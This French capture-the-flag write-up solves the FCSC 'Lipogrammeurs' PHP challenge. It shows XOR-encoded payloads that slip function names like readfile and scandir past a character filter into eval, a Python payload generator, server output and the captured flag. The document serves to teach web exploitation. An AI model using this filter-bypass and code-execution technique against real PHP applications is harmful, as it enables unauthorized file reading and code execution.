

# Lipogrammeurs


https://www.php.net/manual/en/language.operators.bitwise.php

> If both operands for the &, | and ^ operators are strings, then the operation will be performed on the ASCII values of the characters that make up the strings and the result will be a string. In all other cases, both operands will be converted to integers and the result will be an integer.

Payload copied from [EasyPHP](https://github.com/jesux/ctf-write-ups/tree/master/isitdtu-2019/EasyPHP):

```
((%ff%ff%ff%ff%ff%ff%ff)^(%8f%8d%96%91%8b%a0%8d)) -> print_r
    (
        ((%ff%ff%ff%ff%ff%ff%ff)^(%8c%9c%9e%91%9b%96%8d)) -> scandir
            (
                ((%ff)^(%d1)) -> .
            )
    );
```

`http://challenges2.france-cybersecurity-challenge.fr:5008/?code=((%ff%ff%ff%ff%ff%ff%ff)^(%8f%8d%96%91%8b%a0%8d))(((%ff%ff%ff%ff%ff%ff%ff)^(%8c%9c%9e%91%9b%96%8d))(((%ff)^(%d1))));`


```php
Array ( [0] => . [1] => .. [2] => .flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php [3] => index.php )  
```

**Objectif:** passer `readfile('.flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php');` a `eval`.

```python
import sys

query = sys.argv[1]

result=[]
i = 129
for c in query:
    while chr(255 ^ i) != c:
        i = i + 1
    result.append(hex(i).replace('0x', '%'))
    i = 129

print(f"(({'%ff' * len(sys.argv[1])})^({''.join(result)}))")
```

```
$ python3 genPayload.py readfile
((%ff%ff%ff%ff%ff%ff%ff%ff)^(%8d%9a%9e%9b%99%96%93%9a))
$ python3 genPayload.py .flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php
((%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff)^(%d1%99%93%9e%98%d1%96%91%8c%96%9b%9a%d1%b5%cb%cb%94%a6%b7%a6%b3%c
c%9e%8c%98%8c%aa%c8%ad%c6%85%b7%a8%a5%a7%9d%ad%a8%b4%c8%b5%95%b9%c8%ba%d1%8f%97%8f))
```

Decortiquons le payload:

```
((%ff%ff%ff%ff%ff%ff%ff%ff)^(%8d%9a%9e%9b%99%96%93%9a))
    (
        ((%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff)^(%d1%99%93%9e%98%d1%96%91%8c%96%9b%9a%d1%b5%cb%cb%94%a6%b7%a6%b3%cc%9e%8c%98%8c%aa%c8%ad%c6%85%b7%a8%a5%a7%9d%ad%a8%b4%c8%b5%95%b9%c8%ba%d1%8f%97%8f))
    );
```

Payload 1: `((%ff%ff%ff%ff%ff%ff%ff%ff)^(%8d%9a%9e%9b%99%96%93%9a))(((%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff)^(%d1%99%93%9e%98%d1%96%91%8c%96%9b%9a%d1%b5%cb%cb%94%a6%b7%a6%b3%c
c%9e%8c%98%8c%aa%c8%ad%c6%85%b7%a8%a5%a7%9d%ad%a8%b4%c8%b5%95%b9%c8%ba%d1%8f%97%8f)));`

Resultat: page vide



Payload 2: 

- `var_dump(base64_encode(file_get_contents('.flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php')))`
- `((%ff%ff%ff%ff%ff%ff%ff%ff)^(%89%9e%8d%a0%9b%8a%92%8f))(((%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff)^(%9d%9e%8c%9a%c9%cb%a0%9a%91%9c%90%9b%9a))(((%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff)^(%99%96%93%9a%a0%98%9a%8b%a0%9c%90%91%8b%9a%91%8b%8c))(((%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff)^(%d1%99%93%9e%98%d1%96%91%8c%96%9b%9a%d1%b5%cb%cb%94%a6%b7%a6%b3%c
c%9e%8c%98%8c%aa%c8%ad%c6%85%b7%a8%a5%a7%9d%ad%a8%b4%c8%b5%95%b9%c8%ba%d1%8f%97%8f)))));`

```php
string(156) "PD9waHAKCS8vIFdlbGwgZG9uZSEhIEhlcmUgaXMgdGhlIGZsYWc6CgkvLyBGQ1NDezUzZDE5NTUyMmExNWFhMGNlNjc5NTRkYzFkZTdjNTA2MzE3NGE3MjFlZTVhYTkyNGE0YjliMTViYTFhYjY5NDh9Cg=="
```

flag: `FCSC{53d195522a15aa0ce67954dc1de7c5063174a721ee5aa924a4b9b15ba1ab6948}`

## Liens utiles

- https://ctf-wiki.github.io/ctf-wiki/web/php/php/#preg_match-code-execution
- https://ctftime.org/writeup/15937
- https://github.com/Samik081/ctf-writeups/blob/master/ISITDTU%20CTF%202019%20Quals/web/easyphp.md